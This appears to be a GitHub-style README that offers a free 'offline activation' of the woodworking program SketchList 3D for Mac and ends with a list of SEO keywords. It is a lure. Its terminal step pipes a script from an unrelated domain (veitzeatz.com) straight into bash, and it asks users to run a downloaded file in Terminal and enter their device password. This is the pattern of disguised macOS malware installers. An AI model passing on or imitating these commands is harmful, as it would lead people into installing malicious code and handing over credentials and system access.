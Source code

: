 # SketchList 3D — Offline Activation Guide

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://sketchlist-3d-download-mac.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Unlock

🪵 Full woodworking design capabilities  
📐 Parametric layout and dimensions  
📊 Project budgeting and material lists  
🧰 Advanced joinery and panel planning  
🛠 No login or online validation required

---

## 🖼 Preview

![Room Cabinet Design in SketchList 3D](https://sketchlist.com/wp-content/uploads/2019/01/Room-cabinet-design.jpg)  
*Full-room layout with custom cabinet design elements*

![SketchList 3D V5 Interface](https://wooddesigner.org/wp-content/uploads/2024/03/sketchlist-3d.jpg)  
*Overview of the SketchList 3D V5 workspace and tools*

![Rendering and Component View](https://www.sketchup4architect.com/image_show/images/Sketchup_plugins_image/sketchlist-3d.jpg)  
*Rendered 3D view of woodworking components*

---

### 🔎 SEO Keywords

`sketchlist 3d Mac`, `sketchlist 3d Mac download`, `sketchlist 3d Mac free download`,  
`sketchlist mac`, `sketchlist 3d for macbook`, `sketchlist 3d for macos`,  
`sketchlist 3d macbook pro`, `sketchlist 3d mac m1`, `sketchlist woodworking mac`,  
`sketchlist 3d for os x`, `sketchlist app for mac`, `sketchlist design software mac`,  
`download sketchlist mac`, `sketchlist furniture design mac`, `sketchlist mac installer`,  
`sketchlist mac compatibility`, `sketchlist cabinet design mac`, `sketchlist 3d mac version`,  
`mac sketchlist 3d setup`, `sketchlist 3d free mac`, `sketchlist 3d trial mac`,  
`sketchlist software mac`, `sketchlist 3d native mac`, `sketchlist m1 optimized`, `sketchlist 3d latest mac`
